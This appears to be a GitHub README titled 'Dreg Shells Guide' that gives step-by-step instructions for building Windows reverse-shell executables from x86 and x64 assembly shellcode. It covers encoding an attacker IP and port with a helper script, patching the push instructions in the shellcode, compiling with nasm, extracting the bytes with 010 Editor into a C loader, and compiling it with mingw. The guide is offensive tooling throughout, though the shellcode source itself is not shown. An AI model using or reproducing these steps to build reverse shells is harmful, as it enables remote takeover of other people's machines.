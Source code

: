 # Dreg Shells Guide

## Dependecies

```bash
apt-get install gcc mingw-w64 nasm -y
```

## Apps used

- [010 Editor](https://www.sweetscape.com/010editor/)

## Reverse shell Assembly x86
---

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 223 
push word 0xA3EE ; line 225
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 223 
push word 0xA3EE ; line 225
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win32 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
pushfd
```

To know if it agrees we will click on the tools section and then to dissembler

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(64-Bit) and click dissamble.

![Alt text](/images/BWJenLL.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "pushfd".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
i686-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```

---
## Reverse shell Assembly x64

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 244
push word 0xA3EE ; line 248
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 244
push word 0xA3EE ; line 248
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win64 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
sub rsp, 0x30
```

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(32-Bit) and click dissamble.

![Alt text](/images/hTAv7CY.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "sub rsp, 0x30".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c64.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
x86_64-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```